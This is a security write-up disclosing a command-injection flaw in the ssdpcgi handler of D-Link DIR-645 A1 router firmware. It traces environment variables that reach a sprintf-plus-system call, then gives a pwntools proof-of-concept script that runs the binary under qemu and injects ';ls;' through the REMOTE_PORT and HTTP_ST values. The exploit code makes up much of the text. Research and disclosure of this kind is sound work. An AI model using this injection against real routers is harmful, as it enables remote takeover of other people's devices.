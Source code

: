 # D-Link DIR‑645 A1 has a remote arbitrary command execution vulnerability in ssdpcgi

Affected versions: Firmware version <= Firmware v1.05B01

Through the /htdocs/cgibin binary file, we can locate the ssdpcgi_main function

The program getenv is used to obtain parameters. There is no detection measure to directly assign values to hackstak, v3, v5, v4, and then compare the strings of hackstack. We can use any string such as ssdp:all+cmd without bypassing

![image-20250701183716269](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701183716269.png)

However, the program will assign a value to %s_ssdpall_%s:%s_%s_&, which is the parameter of the lxmldbc_system function, which means we can control it.

This function is sprintf+system, and we can control the parameters, so we can execute any command to perform rce or other malicious attacks.

![image-20250701184135375](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184135375.png)

![image-20250701184218430](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184218430.png)

I use qemu user mode debugging to write poc

POC

```
from pwn import*
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.log_level = 'debug'
def bug():
    gdb.attach(target=("localhost", 6666), exe="./htdocs/cgibin",
               gdbscript="""
               b *0x40A79C\n    
               c\n
               """)
    pause()
def s(a):
	p.send(a)
def sa(a,b):
	p.sendafter(a,b)
def sl(a):
	p.sendline(a)
def sla(a,b):
	p.sendlineafter(a,b)
def r(a):
	p.recv(a)
def rl(a):
	return p.recvuntil(a)
def inter():
	p.interactive()

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


#cmd=input("command:")
pay=cyclic(0x100)
print(pay)
post_content = "Thir0th=AGRiot"
p = process(f'''
qemu-mipsel -L . \
  -0 "ssdpcgi" \
  -E HTTP_ST="upnp:rootdevice;ls>" \
  -E REMOTE_ADDR="{pay}" \
  -E REMOTE_PORT=";ls;" \
  -E SERVER_ID="router" \
  -g 6666 \
  ./htdocs/cgibin ssdpcgi
''',shell=True)
#bug()


p.send(post_content)







inter()	
```

Command executed successfully

![image-20250701184452895](https://cdn.jsdelivr.net/gh/Thir0th/blog-image/image-20250701184452895.png)